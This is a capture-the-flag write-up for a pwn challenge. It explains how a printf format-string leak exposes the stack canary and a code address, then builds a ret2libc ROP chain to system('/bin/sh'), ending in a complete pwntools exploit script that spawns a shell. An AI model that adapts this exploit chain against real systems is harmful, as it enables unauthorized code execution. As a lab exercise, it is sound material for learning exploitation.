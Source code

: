 # Reverse

Firstly we run `checksec` on the binary.

![[buy-coofeeImages/Pasted image 20240929131928.png]]

We see that we have all the important protections enabled. Quite scarry at first sight right?

We load up the binary in Ghidra and the execution flow reaches this function, `coffee()`

![[buy-coofeeImages/Pasted image 20240929132209.png]]

We see that indeed we have a canary and a buffer of 24 bytes on the stack. But on line `15` we see the vulnerability an `fread()` call that reads up to 80 characters in the buffer (including null bytes).

# Pwning

## Bypass Canary and PIE

How do we bypass the stack canary though to redirect the execution flow? Only if we could leak things from the stack. 

Luckily we can, on line 12 there is a `printf()` Format String Vulnerability, this allows us to leak contents from the stack including the canary.

By using `%n$lX` we can print the n-th argument passed to `printf()`. Let's look at the calling convention on `x86-64`.
![[buy-coofeeImages/Pasted image 20240929133412.png]]

We see that on Linux we pass the parameters in the following order:
- RDI
- RSI
- RDX
- RCX
- R8
- R9
- Stack

So **RDI** will be at offset 0, **RSI** at offset 1 and so on, this means that the first argument from the stack is at offset 6. Let's take a look at the stack when we enter the `printf()` function.

![[buy-coofeeImages/Pasted image 20240929133657.png]]

We see that at `rsp+0x08` we have the 6th argument passed to `printf()`, our string. At `rsp+32` which is the `9th` argument passed to `printf()` we have the stack canary. 
Moreover at `rbp+0x08` or at `rsp+48` or the `11th` argument on the stack we have the return address of the `printf()` call, which returns in main, in `main+78` to be more specific.

So by supplying `%9$lX %11$lX` as input to the `printf()` function we will get these two values separated by a space.

```
[*] Output  FA221527F3AC6B00 56555153C332
```

Now we can safely overwrite the return address and redirect the execution flow. We can perform a `ret2libc` attack. The simplest way to do so is to call `system()` with the argument of `/bin/sh`. 

Following the syscall convention of x86-64 we need to pass the address of `/bin/sh`(the **libc** contains the string `/bin/sh`) by the **RDI** register. 

## Ret2libc

We use `ROPgadget` to find the `pop rdi ; ret` and we find one.
![[buy-coofeeImages/Pasted image 20240929134909.png]]
We cannot just jump to the gadget's location because remember the binary is compiled as **PIE** enabled. So we need to calculate where to jump based on the leaked `main+78` address and the offset between `main+78` and the gadget in the code.

```python
#main+78        0x00101332
#pop rdi; ret   0x001013b3
rop_gadget_addr = main78 + 0x81
```

The script also outputs the address of the `printf()` function from libc and we also received the library used by the challenge (2.31). Using these two we can pinpoint the version used by the binary exactly using **libc-database**. In this case it is `libc6_2.31-0ubuntu9.9_amd64`.

![[buy-coofeeImages/Pasted image 20240929140201.png]]

From here we calculate the offsets to the string `/bin/sh` and `system()`.
```python
system_addr = printfAddr - 0xFA00
bin_sh_addr = printfAddr + 0x15292D
```

## Exploit
We chain everything together and let's do not forget of the extra `ret` needed for the `MOVAPS` instruction.

```python
from pwn import *
import logging

context.log_level='DEBUG'
context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']

gdb_script = f"""
"""

io = gdb.debug('./buy_me_coffee_patched', gdbscript = gdb_script)
#io = remote("34.159.156.124", 32123)

output = io.recvuntil('$')

io.sendline('%9$lX %11$lX') # 9 canary; 11 main+78

output = io.clean(timeout=1)

log.info("Output " + output.decode())
log.success("Canary: " + output.decode().split(' ')[1])
log.success("Main78:" + output.decode().split('W')[0].split(' ')[2])
log.success("Code base: " + str(hex(int(output.decode().split('W')[0].split(' ')[2], 16) - 0x1332)))

canary = int(output.decode().split(' ')[1], 16)
main78 = int(output.decode().split('W')[0].split(' ')[2], 16)
  
printfAddr = int(output.decode().split(' ')[5].split('\n')[0], 16)
log.success("Printf address: "+ output.decode().split(' ')[5].split('\n')[0])

system_addr = printfAddr - 0xFA00
bin_sh_addr = printfAddr + 0x15292D

#main+78        0x00101332
#pop rdi; ret   0x001013b3
rop_gadget_addr = main78 + 0x81
just_a_ret = main78 - 0x10c

payload = b'A' * 24
payload += p64(canary)
payload += b'B' * 8     #skip saved RBP

payload += p64(just_a_ret)
payload += p64(rop_gadget_addr)
payload += p64(bin_sh_addr)
payload += p64(system_addr)

io.sendline(payload)
io.interactive()
```

## Flag

Last we run it on remote and get the flag! :)
![[buy-coofeeImages/Pasted image 20240929142109.png]]
